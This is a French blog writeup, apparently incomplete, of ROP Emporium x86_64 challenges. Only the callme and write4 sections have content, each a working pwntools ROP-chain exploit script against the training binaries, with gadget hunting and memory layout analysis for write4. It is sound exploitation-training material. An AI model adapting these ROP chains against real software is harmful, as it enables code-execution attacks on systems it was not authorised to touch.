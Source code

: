 ```yaml
---
title: "ROP Emporium - Writeups"
description: Writeups des challenges x86_64 de ROP Emporium 
---
```


Aujourd'hui je vous propose mes writeups des challenges x86_64 de [ROP Emporium](https://ropemporium.com/). Vous pouvez retrouver les [scripts de solution](https://github.com/nuts7/nuts7.github.io/tree/master/articles/ropemporium-writeups) directement sur mon GitHub. 😀

# Sommaire
1. [ret2win](#ret2win-writeup)
2. [split](#split-writeup)
3. [callme](#callme-writeup)
4. [write4](#write4-writeup)
5. [badchars](#badchars-writeup)
6. [fluff](#fluff-writeup)
7. [pivot](#pivot-writeup)
8. [ret2csu](#ret2csu-writeup)

<div id='ret2win-writeup'/>
# ret2win

<div id='split-writeup'/>
# split

<div id='callme-writeup'/>
# callme

```py
from pwn import *

context.arch = 'amd64'
p = process("./callme")
elf = ELF("./callme")
rop = ROP("./callme")

padding = cyclic(40)
gadget = p64((rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"]))[0])
callme_1 = p64(elf.symbols['callme_one'])
callme_2 = p64(elf.symbols['callme_two'])
callme_3 = p64(elf.symbols['callme_three'])
arg_1 = p64(0xdeadbeefdeadbeef)
arg_2 = p64(0xcafebabecafebabe)
arg_3 = p64(0xd00df00dd00df00d)

def first_call(padding, gadget, callme_1):
    pld_1 = padding
    pld_1 += gadget
    pld_1 += arg_1
    pld_1 += arg_2
    pld_1 += arg_3
    pld_1 += callme_1
    return pld_1

def second_call(padding, gadget, callme_2): 
    pld_2 = gadget
    pld_2 += arg_1
    pld_2 += arg_2
    pld_2 += arg_3
    pld_2 += callme_2
    return pld_2

def third_call(padding, gadget, callme_3):
    pld_3 = gadget
    pld_3 += arg_1
    pld_3 += arg_2
    pld_3 += arg_3
    pld_3 += callme_3
    return pld_3

ropchain = first_call(padding, gadget, callme_1) 
ropchain += second_call(padding, gadget, callme_2)
ropchain += third_call(padding, gadget, callme_3)

p.sendline(ropchain)
p.interactive()
```

<div id='write4-writeup'/>
# write4

- Après lecture de la description du [challenge write4](https://ropemporium.com/challenge/write4.html), nous comprenons que nous allons devoir **write flag.txt** en mémoire dans un **segment du binaire accessible en écriture** car cette string n'est pas présente de facon analogue et **call** la fonction `print_file()` dans la **PLT**. Il est spécifié que `print_file()` prend comme seul argument **l'emplacement mémoire** de flag.txt.

C'est un binaire 64 bits linké dynamiquement et non strippé ayant le bit NX d'activé ainsi que l'ASLR :

```py
❯ checksec --file=write4
[*] '/home/nuts/Documents/CTF/ropemporium/write4/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  '.'
❯ file write4
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
❯ cat /proc/sys/kernel/randomize_va_space
2
```

Premièrement regardons les permissions des différents segments et sections du binaire :
```py
❯ readelf -S write4
Il y a 29 en-têtes de section, débutant à l'adresse de décalage 0x1980:

En-têtes de section :
<...>
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
<..>
Clé des fanions :
  W (écriture), A (allocation), X (exécution), M (fusion), S (chaînes), I (info),
  L (ordre des liens), O (traitement supplémentaire par l'OS requis), G (groupe),
  T (TLS), C (compressé), x (inconnu), o (spécifique à l'OS), E (exclu),
  l (grand), p (processor specific)
❯ rabin2 -S write4
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
<...>
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
<...>
```

Nous remarquons que nous avons 2 segments avec le **flag W** (écriture) d'activé. Par exemple, écrivons la string **flag.txt** dans le segment `.data`. (nous pouvons aussi utiliser .bss)
<br/>

Récupérons l'adresse du segment :

```py
❯ readelf -s write4 | grep .data
     5: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    48: 0000000000601028     0 NOTYPE  WEAK   DEFAULT   23 data_start
    49: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    52: 0000000000601028     0 NOTYPE  GLOBAL DEFAULT   23 __data_start
```

L'adresse de ce dernier est `0x601028`.

Maintenant, nous devons trouver un moyen de setup flag.txt dans .data. Pour cela nous avons 2 gadgets intéressants `pop r14 ; pop 15 ; ret` et `mov qword ptr [r14], r15 ; ret` :

```py
❯ ROPgadget --binary write4
<...>
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
<...>
```

- Le but va etre d'empiler **l'adresse du segment writable** (.data) et la string **flag.txt** grace au buffer overflow, de setup ses valeurs dans 2 registres (ici r14 et r15) à l'aide d'un pop, puis de copier la valeur pointé dans l'opérande source (r15 qui pointe vers flag.txt) dans l'opérande de destination. (r14 qui pointe vers l'adresse de .data)
Ainsi, notre string flag.txt sera stocké à l'adresse du segment .data.

> Rappel : pop permet de désempiler de la stack la valeur pointé dans RSP et déplacer cette valeur dans l'opérande indiquée.

<br/>
- 
Une fois que nous avons flag.txt dans notre binaire, il nous suffit simplement de passer en argument cette chaine à la fonction `print_file()`. Alors nous avons besoin d'un gadget `pop rdi ; ret` et évidemment de l'adresse de la fonction `print_file()` :

```py
❯ ROPgadget --binary write4 | grep "pop rdi ; ret"
0x0000000000400693 : pop rdi ; ret
❯ objdump -d write4 | grep print_file
0000000000400510 <print_file@plt>:
  400510:       ff 25 0a 0b 20 00       jmpq   *0x200b0a(%rip)        # 601020 <print_file>
  400620:       e8 eb fe ff ff          callq  400510 <print_file@plt>
```

Afin d'automatiser notre exploitation j'ai développé un petit script en python toujours avec la [librairie pwntools](https://github.com/Gallopsled/pwntools) :

```py
from pwn import *

context.arch = 'amd64'
p = process("./write4", stdin=PTY)
elf = ELF("./write4")
rop = ROP("./write4")

padding = cyclic(40)

data_segment = p64(elf.symbols["data_start"]) # readelf -s write4
flag_string = b"flag.txt"

pop_r14_pop_r15 = p64((rop.find_gadget(["pop r14", "pop r15", "ret"]))[0])
mov_ptr_r14_r15 = p64(0x400628)

pop_rdi = p64((rop.find_gadget(["pop rdi", "ret"]))[0])
print_file = p64(elf.symbols['print_file'])

pld = padding
pld += pop_r14_pop_r15 # to setup data addr & flag.txt in registers
pld += data_segment
pld += flag_string
pld += mov_ptr_r14_r15 # mov qword ptr [r14], r15 ; ret ==> to move flag.txt in data segment
pld += pop_rdi # to put the memory location of flag.txt in print_file() as argument
pld += data_segment
pld += print_file

p.sendline(pld)
p.interactive()
```

<div id='badchars-writeup'/>
# badchars

<div id='fluff-writeup'/>
# fluff

<div id='pivot-writeup'/>
# pivot

<div id='ret2csu-writeup'/>
# ret2csu
